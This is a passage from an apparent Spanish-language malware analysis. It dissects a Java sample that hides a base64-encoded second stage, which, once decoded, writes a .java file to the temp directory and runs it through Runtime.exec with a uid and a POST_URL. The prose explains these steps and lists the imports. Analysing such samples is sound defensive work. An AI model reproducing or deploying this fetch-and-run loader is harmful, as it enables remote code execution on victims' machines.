 ```java
          + "CAgY29udGludWU7CiAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgICAgICBTdHJpbmcgcmVzU3RyID0gcmVzcG9uc2UuYm9keSgpOwogICAgICAgICAgICAgICAgaWYgKCF"
          + "yZXNTdHIuc3RhcnRzV2l0aCgiR0lUSFVCX1JFUyIpKQogICAgICAgICAgICAgICAgewogICAgICAgICAgICAgICAgICAgIFN5c3RlbS5vdXQucHJpbnRsbigiRGF0YSBFcnJvc"
          + "iIpOwogICAgICAgICAgICAgICAgfSBlbHNlIHsKICAgICAgICAgICAgICAgIGlmIChyZXNTdHIubGVuZ3RoKCkgPiAxMSkKICAgICAgICAgICAgICAgIHsKICAgICAgICAgICA"
          + "gICAgICAgICBTdHJpbmcgZW5jX2RhdGEgPSByZXNTdHIuc3Vic3RyaW5nKDEwKTsKICAgICAgICAgICAgICAgICAgICBieXRlIFtdIGRlY19kYXRhID0gQmFzZTY0LmdldERlY"
          + "29kZXIoKS5kZWNvZGUoZW5jX2RhdGEpOwogICAgICAgICAgICAgICAgICAgIFN0cmluZyBvcmdfZmlsZSA9IG5ldyBTdHJpbmcoZGVjX2RhdGEsIFN0YW5kYXJkQ2hhcnNldHM"
          + "uVVRGXzgpOwogICAgICAgICAgICAgICAgICAgIFN0cmluZyBvcmdfcGF0aDsKICAgICAgICAgICAgICAgICAgICAKICAgICAgICAgICAgICAgICAgICBpZiAoSW50ZWdlci5wY"
          + "XJzZUludChnZXRPcGVyYXRpbmdTeXN0ZW0oKSkgPT0gMCkKICAgICAgICAgICAgICAgICAgICB7CiAgICAgICAgICAgICAgICAgICAgICAgIG9yZ19wYXRoID0gU3lzdGVtLmd"
          + "ldFByb3BlcnR5KCJqYXZhLmlvLnRtcGRpciIpICsgIlxccHJlZlRtcC5qYXZhIjsKICAgICAgICAgICAgICAgICAgICAgICAgc2VjX3BhdGggPSBTeXN0ZW0uZ2V0UHJvcGVyd"
          + "HkoImphdmEuaW8udG1wZGlyIikgKyAiXFxwLmRhdCI7CiAgICAgICAgICAgICAgICAgICAgfSBlbHNlIHsKICAgICAgICAgICAgICAgICAgICAgICAgb3JnX3BhdGggPSBTeXN"
          + "0ZW0uZ2V0UHJvcGVydHkoImphdmEuaW8udG1wZGlyIikgKyAiL3ByZWZUbXAuamF2YSI7CiAgICAgICAgICAgICAgICAgICAgICAgIHNlY19wYXRoID0gU3lzdGVtLmdldFByb"
          + "3BlcnR5KCJqYXZhLmlvLnRtcGRpciIpICsgIi9wLmRhdCI7CiAgICAgICAgICAgICAgICAgICAgfQogICAgICAgICAgICAgICAgICAgIHRyeSAoRmlsZVdyaXRlciBmaWxlID0"
          + "gbmV3IEZpbGVXcml0ZXIob3JnX3BhdGgsIHRydWUpO0J1ZmZlcmVkV3JpdGVyIGJ1ZmZlciA9IG5ldyBCdWZmZXJlZFdyaXRlcihmaWxlKSkgewogICAgICAgICAgICAgICAgI"
          + "CAgICAgICBidWZmZXIud3JpdGUob3JnX2ZpbGUpOwogICAgICAgICAgICAgICAgICAgIH0KICAgICAgICAgICAgICAgICAgICBTdHJpbmcgY21kbGluZSA9ICJqYXZhICIgKyB"
          + "vcmdfcGF0aCArICIgIiArIHVpZCArICIgIiArIFBPU1RfVVJMOwogICAgICAgICAgICAgICAgICAgIFJ1bnRpbWUuZ2V0UnVudGltZSgpLmV4ZWMoY21kbGluZSk7CiAgICAgI"
          + "CAgICAgICAgICAgICAgVGhyZWFkLnNsZWVwKDMwMDApOwogICAgICAgICAgICAgICAgfQogICAgICAgICAgICAgICAgVGhyZWFkLnNsZWVwKDUwMDApOwogICAgICAgICAgICB"
          + "9CiAgICAgICAgICAgIH0gY2F0Y2ggKEludGVycnVwdGVkRXhjZXB0aW9uIGV4KSB7CiAgICAgICAgICAgIH0KICAgICAgICB9CiAgICB9Cn0K";
```

Tal como fue comentado es contenido codificado en `base64` el cual será decodificado y posteriormente escrito en un archivo `.java` ubicado en un directorio temporal. 

Decodificando el contenido base64 de esta variable obtenemos el siguiente resultado, que dista mucho de ser un simple archivo de log:

<details><summary>Código Java (112 líneas)</summary></details>

¿Qué acciones realiza este código?

- Importa distintas librerías que le permiten realizar llamadas HTTP, realizar operaciones sobre contenido codificado en base64, manipular archivos, generar números aleatorios y usar hilos (threads).

```java
import java.io.IOException;
import java.net.URI;
import java.net.http.HttpClient;
import java.net.http.HttpRequest;
import java.net.http.HttpResponse;
import java.nio.charset.StandardCharsets;
import java.util.Base64;
import java.util.Random;
import java.io.BufferedWriter;
import java.io.File;
import java.io.FileWriter;
import java.lang.Thread;
```
